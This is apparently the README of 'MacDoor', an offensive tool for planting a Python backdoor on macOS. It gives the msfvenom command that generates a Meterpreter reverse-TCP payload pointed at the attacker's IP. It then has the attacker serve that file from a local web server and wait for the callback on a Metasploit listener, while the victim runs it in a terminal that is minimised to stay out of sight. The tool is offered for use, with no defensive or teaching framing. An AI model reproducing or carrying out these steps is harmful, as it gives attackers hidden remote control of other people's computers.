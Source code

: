 # MacDoor - Python Backdoor Execution for MacOS

```  
    __  ___              ____                     
   /  |/  /____ _ _____ / __ \ ____   ____   _____
  / /|_/ // __ `// ___// / / // __ \ / __ \ / ___/
 / /  / // /_/ // /__ / /_/ // /_/ // /_/ // /    
/_/  /_/ \__,_/ \___//_____/ \____/ \____//_/     
```

* Author:     afsh4ck
* Version:    1.0
* Target:     MacOS
* Tested on:  Ventura 13.3.1
* Category:   Remote Access

# DESCRIPTION

Download a Python backdoor from our server, run it in terminal and minimize the terminal window.

# STEPS

* Step 1: msfvenom -p python/meterpreter/reverse_tcp LHOST={your IP} LPORT=4444 -o backdoor.py  
* Step 2: mount a local server 'python3 -m http.server'  
* Step 3: msfconsole multi/handler listener open before the attack.

# NOTE

* You need to modify the script with your attacker IP and the port or your local server.

